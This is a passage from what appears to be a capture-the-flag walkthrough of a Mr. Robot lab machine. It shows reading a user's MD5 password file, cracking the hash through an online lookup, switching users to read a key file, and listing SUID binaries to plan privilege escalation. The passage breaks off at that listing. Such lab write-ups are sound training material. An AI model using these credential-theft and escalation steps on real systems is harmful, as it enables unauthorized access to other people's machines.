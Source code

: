 Now look around and find this:

```text
daemon@linux:/$ ls -ls home/robot/
total 8
4 -r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
4 -rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5

Can't access key yet, but do have access to the password file:
daemon@linux:/$ cat home/robot/password.raw-md5
<<HIDDEN>>
```

Looks to be a password, give it a try:

```text
daemon@linux:/$ su robot
Password: 
su: Authentication failure
```

Nope, but it does say md5 in filename, so maybe it is encrypted, try and crack it using [this](https://md5.gromweb.com) site.

![md5-reverse](/assets/images/2020-05-26-21-48-17.png)

That looks better, give it a try:

```text
daemon@linux:/$ su robot
Password:
robot@linux:/$
```

Success, now we can get the second key:

```text
robot@linux:/$ cat /home/robot/key-2-of-3.txt
<<HIDDEN>
```

## Privilge Escalation

Now we need to escalate to root to get the last key. First thing to do is look for any files with SUID set. These can be used to run as root from our current user:

```text
robot@linux:/$ find / -perm -4000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/pt_chown
```